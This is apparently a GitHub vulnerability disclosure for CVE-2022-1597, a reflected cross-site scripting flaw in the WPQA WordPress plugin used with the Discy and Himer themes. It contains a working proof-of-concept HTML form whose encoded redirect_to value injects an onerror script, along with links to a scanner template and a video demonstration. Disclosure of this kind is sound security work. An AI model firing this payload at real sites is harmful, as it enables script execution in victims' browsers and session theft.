

# CVE-2022-1597
 The plugin, used as a companion for the Discy and Himer themes, does not sanitise and escape a parameter on its reset password form which makes it possible to perform Reflected Cross-Site Scripting attacks

## Affected Plugins:
[WPQA](https://codecanyon.net/item/wpqa-builder-forms-addon-for-wordpress/25298161) < 5.4

## Affected Themes:
[DISCY](https://2code.info/discy-social-questions-and-answers-wordpress-theme/)

[HIMER](https://2code.info/himer-social-questions-and-answers-wordpress-theme/)

## POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="user&#95;mail" value="validEmail@domain.com" />
      <input type="hidden" name="form&#95;type" value="wpqa&#95;forget" />
      <input type="hidden" name="action" value="wpqa&#95;ajax&#95;password&#95;process" />
      <input type="hidden" name="redirect&#95;to" value="&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
## Nuclei Template:
[CVE-2022-1597.yaml](CVE-2022-1597.yaml)



## VIDEO POC:
https://www.youtube.com/watch?v=E2GRtf6prq8

### References:
https://wpscan.com/vulnerability/faff9484-9fc7-4300-bdad-9cd8a30a9a4e

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1597
